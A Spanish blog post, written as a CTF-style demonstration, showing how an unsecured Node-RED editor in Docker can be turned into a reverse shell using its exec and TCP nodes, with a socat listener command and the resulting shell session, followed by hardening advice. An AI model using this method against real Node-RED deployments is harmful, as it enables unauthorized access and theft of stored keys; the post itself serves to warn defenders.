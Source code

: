 ```yaml
---
title: '¿Por qué deberías proteger Node-RED?'
date: '2023-01-15'
tags: ["node-red", "ciberseguridad", "docker", "iot", "seguridad en contenedores", "shell reversa", "tcp", "vulnerabilidades", "autenticación", "https"]
draft: false
authors: ['default']
summary: 'Reto CTF: Node-RED es una herramienta de programación visual con nodos que se comunican entre sí. Se pueden aprovechar vulnerabilidades como ejecución de comandos y acciones de entrada/salida por TCP para comprometer el sistema. Es importante proteger Node-RED mediante el uso de autenticación, HTTPS y la deshabilitación de nodos innecesarios. No debemos confiarnos solo por usar contenedores.'
images: ["/static/images/uploads/por-que-deberias-proteger-node-red/nodered-pwned.webp", "/static/images/uploads/por-que-deberias-proteger-node-red/image-4.webp", "/static/images/uploads/por-que-deberias-proteger-node-red/nodered-esquema-2.svg", "/static/images/uploads/por-que-deberias-proteger-node-red/image-3.webp", "/static/images/uploads/por-que-deberias-proteger-node-red/image-5.webp"]
---
```


![](/static/images/uploads/por-que-deberias-proteger-node-red/nodered-pwned.webp)

## ¿Qué es Node-RED?

Esta es la parte más aburrida del post, por lo que me voy a permitir el lujo de copiarlo de otro sitio en Internet.


> Node-RED es una herramienta de programación visual que se implementa en dispositivos controladores de hardware. Trabaja mostrando de manera visual las relaciones y funciones de manera que se pueda programar sin escribir. Es un panel de flow al que se pueden incorporar nodos que se comuniquen entre ellos y puede instalarse en equipos como ordenadores Windows, Linux, o en servidores en la nube. Este sistema de representaciónpuede ayudarte a visualizar gráficamente el flujo de la información y consiste en su representación gráfica.

En otras palabras, es una plataforma que mediante cajitas que hacen distintas cosas, eres capaz de crear un **workflow** de una forma visual y ver su representación de un solo vistazo.

## Preparación del escenario

1. Arranco **Docker** en mi ordenador de casa con **Windows 11**.


```
@ikero ➜ ~ docker run -it -p 1880:1880 -v node_red_data:/data --name mynodered nodered/node-red
```
2. Mapeo el puerto *1880* del contenedor al *1880* de **Windows**, para que sea visible por otros equipos.

3. Confirmo que el contenedor está funcionando correctamente y podemos empezar con la prueba de concepto.

![](/static/images/uploads/por-que-deberias-proteger-node-red/image-4.webp)

> ⚠️Esta prueba se realiza utilizando contenedores Docker, pero es también posible hacerlo sin utilizar ninguna tecnología de contenedorización.

## De qué forma es vulnerable

Arranco una máquina virtual de tal forma que simularemos ser el atacante de la prueba. El esquema es el siguiente.

![](/static/images/uploads/por-que-deberias-proteger-node-red/nodered-esquema-2.svg)

Mi máquina virtual es capaz de acceder al puerto *1880* del PC con *Windows 11* corriendo el contenedor de **Node-RED**.

![](/static/images/uploads/por-que-deberias-proteger-node-red/image-3.webp)

Los nodos de los cuales voy a sacar provecho son los siguientes:

* **exec**: Ejecuta un comando de sistema y devuelve su salida.
* **tcp in**: Provee una muestra de acciones de entrada por TCP.
* **tcp out**: Provee una muestra de acciones de salida por TCP.

Son solamente necesarios estos tres nodos para comprometer el sistema. El siguiente flujo entabla una **shell reversa** por el puerto *9999*

![](/static/images/uploads/por-que-deberias-proteger-node-red/image-5.webp)

Me pongo en escucha desde la máquina atacante con la IP 192.168.1.138 y veamos que ocurre.


```
sudo socat -d -d TCP-LISTEN:9999 STDOUT
# 2023/01/15 02:57:47 socat[64557] W ioctl(5, IOCTL_VM_SOCKETS_GET_LOCAL_CID, ...): Inappropriate ioctl for device
# 2023/01/15 02:57:47 socat[64557] N listening on AF=2 0.0.0.0:9999
# 2023/01/15 02:57:56 socat[64557] N accepting connection from AF=2 192.168.1.132:64267 on AF=2 192.168.1.138:9999
# 2023/01/15 02:57:56 socat[64557] N using stdout for reading and writing
# 2023/01/15 02:57:56 socat[64557] N starting data transfer loop with FDs [6,6] and [1,1]
whoami
# node-red
ls /
# bin
# data
# dev
# etc
# healthcheck.js
# home
# lib
# media
# mnt
# opt
# proc
# root
# run
# sbin
# srv
# sys
# tmp
# usr
# var
```
Ya tenemos acceso a la Shell del contenedor Docker. No debemos pensar bajo ningún concepto que por el hecho de usar contenedores ya estamos protegidos. Existen varias vulnerabilidades de tipo [Container Escape Vulnerability](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities) que hace que no debamos bajar la guardia simplemente por el hecho de usar contenedores.

A partir de aquí, debes pensar que cualquier cosa que estuviese dentro de tu sistema (o en otros sistemas, porque también se puede acabar saltando hacia otros equipos vulnerables del entorno) ha podido ser robada. Ya sean **Api Keys** que utilizas para subir los datos a un proveedor **Cloud** o contraseñas para acceder a otros sistemas que hayas pensado que almacenarlos dentro de una carpeta del contenedor era una buena idea.

## Cómo puedo hacerlo (un poco) más seguro.

Lo primero es seguir las recomendaciones que dice su propia página en https://nodered.org/docs/user-guide/runtime/securing-node-red.

En la primera línea nos encontramos el siguiente mensaje.

> ⚠️By default, the Node-RED editor is not secured - anyone who can access its IP address can access the editor and deploy changes.

A partir de aquí, lo que debe ser un **MUST** en nuestra configuración debe ser:

* Habilitar la ventana de Login en todos los casos.
* Separar credenciales entre los editores de los flujos y los usuarios normales.
* Habilitar HTTPs. Aunque sea con certificados autofirmados.
* Deshabilitar aquellos nodos que creamos que no son necesarios para nuestro tipo de trabajo. O mejor aún, deshabilitar todos y habilitar SOLO aquellos que son necesarios.

Los flujos de Node-RED son, al fin y al cabo, una manera de desarrollar software "más sencilla". El hecho de ver una interfaz amigable no debe despistarnos de lo que es la plataforma en sí. Abrir la puerta a que cualquiera pueda desarrollar sus flujos sin ningún tipo de cuidado, puede ser peligroso.

